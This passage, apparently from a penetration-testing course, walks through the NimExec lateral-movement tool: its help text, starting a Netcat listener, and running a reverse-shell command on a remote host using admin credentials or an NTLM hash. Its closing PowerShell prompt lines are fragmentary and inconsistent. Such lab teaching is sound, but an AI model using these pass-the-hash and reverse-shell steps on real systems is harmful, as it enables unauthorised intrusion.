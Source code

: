 Running the tool without parameters give us some commands and descriptions to let us know how to use it.

```powershell
PS C:\Tools> .\NimExec.exe

                                                                                             _..._
                                                                                          .-'_..._''.
   _..._   .--. __  __   ___         __.....__                          __.....__       .' .'      '.\
 .'     '. |__||  |/  `.'   `.   .-''         '.                    .-''         '.    / .'
.   .-.   ..--.|   .-.  .-.   ' /     .-''"'-.  `.                 /     .-''"'-.  `. . '
|  '   '  ||  ||  |  |  |  |  |/     /________\   \ ____     _____/     /________\   \| |
|  |   |  ||  ||  |  |  |  |  ||                  |`.   \  .'    /|                  || |
|  |   |  ||  ||  |  |  |  |  |\    .-------------'  `.  `'    .' \    .-------------'. '
|  |   |  ||  ||  |  |  |  |  | \    '-.____...---.    '.    .'    \    '-.____...---. \ '.          .
|  |   |  ||__||__|  |__|  |__|  `.             .'     .'     `.    `.             .'   '. `._____.-'/
|  |   |  |                        `''-...... -'     .'  .'`.   `.    `''-...... -'       `-.______ /
|  |   |  |                                        .'   /    `.   `.                               `
'--'   '--'                                       '----'       '----'

                                            @R0h1rr1m

[!] Missing one or more arguments!
[!] Error unknown or missing parameters!

    -v | --verbose                          Enable more verbose output.
    -u | --username <Username>              Username for NTLM Authentication.*
    -h | --hash <NTLM Hash>                 NTLM password hash for NTLM Authentication.**
    -p | --password <Password>              Plaintext password.**
    -t | --target <Target>                  Lateral movement target.*
    -c | --command <Command>                Command to execute.*
    -d | --domain <Domain>                  Domain name for NTLM Authentication.
    -s | --service <Service Name>           Name of the service instead of a random one.
    --help                                  Show the help message.

```

`Nimexec` works simillary to `SharpNoPSExec`. Let's start our listener using `Netcat`:

```shell
nc -lvnp 8080
Listening on 0.0.0.0 8080

```

To execute `NimExec`, we must specify the administrator credentials with the options `-u <user>`, `-p <password>` and `-d <domain>`, and the target IP address `-t <ip>`. Alternatively, we can use the NTLM hash for authentication `-h <NT hash>` instead of the password. Finally, we must specify the payload to execute with the option `-c <cmd.exe> /c <reverseShell>`. We can generate the reverse shell payload using [revshells.com](https://revshells.com), and to convert the plain text password to NTLM hash, we can use this [recipe](https://gchq.github.io/CyberChef/#recipe=NT_Hash()) in CyberChef.


[SRV02]: PS C:\Users\helen\Documents>
[SRV02.inlanefreight.local]: PS C:\Users\Leonvqz\Documents> hostname
[srv02.inlanefreight.local]: PS C:\Users\Helen\Documents>